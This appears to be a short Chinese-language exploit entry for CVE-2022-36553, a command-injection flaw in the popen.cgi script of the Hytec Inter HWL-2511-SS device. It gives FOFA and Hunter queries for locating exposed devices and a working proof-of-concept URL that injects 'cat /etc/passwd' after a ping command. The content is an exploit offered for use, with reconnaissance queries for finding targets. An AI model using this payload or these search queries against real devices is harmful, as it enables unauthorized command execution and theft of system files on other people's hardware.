 # Hytec Inter HWL-2511-SS popen.cgi 命令执行漏洞 CVE-2022-36553

## 网络测绘

fofa: title="index" && header="lighttpd/1.4.30"

hunter: web.title="index" && header="lighttpd/1.4.30"

## POC / EXP

```
/cgi-bin/popen.cgi?command=ping%20-c%204%201.1.1.1;cat%20/etc/passwd&v=0.1303033443137921
```